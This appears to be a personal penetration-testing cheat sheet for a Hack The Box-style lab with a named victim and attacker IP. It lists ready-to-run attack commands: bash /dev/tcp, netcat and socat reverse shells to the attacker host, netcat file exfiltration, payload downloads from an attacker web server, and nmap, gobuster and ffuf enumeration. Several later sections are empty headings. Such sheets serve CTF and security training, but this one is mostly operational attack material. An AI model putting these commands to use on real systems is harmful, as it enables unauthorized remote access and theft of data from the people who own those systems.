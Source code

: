 # Cheat sheet with my popular tools

> Victim host 10.10.10.77 and Kali host 10.10.10.10

![](https://i.pinimg.com/originals/2a/db/1e/2adb1e4dbe67ce0ff39c4b080f015aa3.jpg)

## Useful Commands

### Create web server

* #### With Python

```
python3 -m http.server 8888
``` 

```
python -m SimpleHTTPServer 8888
```

### Upgrade reverse shell

* #### With Socat

*Victim:* 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
*Kali:*
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

* #### With Python

*Victim:* 
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

### Send files

* #### With netcat

*Victim:*
```
cat file.txt | nc -q 0 10.10.10.10 4444
```

*Kali:*
```
nc -lvp 4444 > file.txt
```

* #### With web server

*Kali:*
```
python3 -m http.server 8888 
python -m SimpleHTTPServer 8888
```

*Victim:*
```
wget http://10.10.10.10:8888/script.sh -O script.sh
```

* #### With SCP

*Copy from Victim*
```
scp user@10.10.10.77:/home/user/file.txt /home/kali/
```

*Copy to Victim* 
```
scp -r /home/kali/file.txt user@10.10.10.77:/home/user/
```

### Reverse shells

* #### With bash

```
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

* #### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

* #### Listener

```
nc -lvp 4444
```

## Enumeration

* #### Nmap

TCP Scan:

```
nmap -sV -sC -p- 10.10.10.77
```

UDP Scan:

```
nmap -sU -sV -p- 10.10.10.77
```

### If Web Server

Brute dir with extensions

* #### GoBuster

```
gobuster dir -e -u http://academy.htb/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x .php,txt,htm,html,phtml,js,zip,rar,tar -s 200,302
```

* #### FuFF

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://academy.htb/FUZZ -e php,txt,htm,html,phtml,js,zip,rar,tar -mc 200,302
```

VHOST Discovery

* #### FuFF

```
ffuf -w subdomains-top1million-110000.txt -u https://10.10.10.77/ -H "Host:FUZZ.10.10.10.77"
```

## Privilege Escalation

## Reverse Engineering

## Some Scripts

## References
